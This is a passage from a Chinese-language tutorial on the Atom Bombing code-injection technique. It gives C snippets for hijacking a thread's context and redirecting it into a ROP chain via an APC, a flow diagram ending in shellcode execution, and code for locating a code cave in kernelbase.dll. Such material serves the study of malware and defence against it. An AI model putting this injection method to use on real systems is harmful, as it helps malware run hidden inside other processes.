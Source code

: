 #### 步骤 3: 劫持线程执行

**修改线程上下文：**
```c
// 1. 获取线程上下文
CONTEXT ctx = {0};
ctx.ContextFlags = CONTEXT_CONTROL;
GetThreadContext(hThread, &ctx);

// 2. 修改寄存器指向 ROP 链
ctx.Rip = NtAllocateVirtualMemory;  // x64
ctx.Rsp = ropChainAddress;          // 栈指针
ctx.Rbp = ropChainAddress;          // 基址指针

// 3. 通过 APC 设置新上下文
NtQueueApcThread(
    hThread,
    NtSetContextThread,
    GetCurrentThread(),
    &ctx,
    NULL
);

// 4. 恢复线程执行
ResumeThread(hThread);
```

**执行流程：**
```
线程恢复 → RIP = NtAllocateVirtualMemory
          ↓
     分配 RWX 内存
          ↓
     返回到 memcpy (栈上的返回地址)
          ↓
     复制 shellcode 到分配的内存
          ↓
     返回到 RET gadget
          ↓
     RET 跳转到分配的内存
          ↓
     执行 shellcode
```

### 代码洞（Code Cave）

为了存储 ROP 链和 shellcode，Atom Bombing 使用"代码洞"技术：

**查找代码洞：**
```c
// 在 kernelbase.dll 的 .data 节末尾
HMODULE hKernelBase = GetModuleHandleA("kernelbase.dll");
PIMAGE_SECTION_HEADER dataSection = FindSection(hKernelBase, ".data");
PVOID codeCave = (BYTE *)hKernelBase +
                 dataSection->VirtualAddress +
                 dataSection->SizeOfRawData;
```
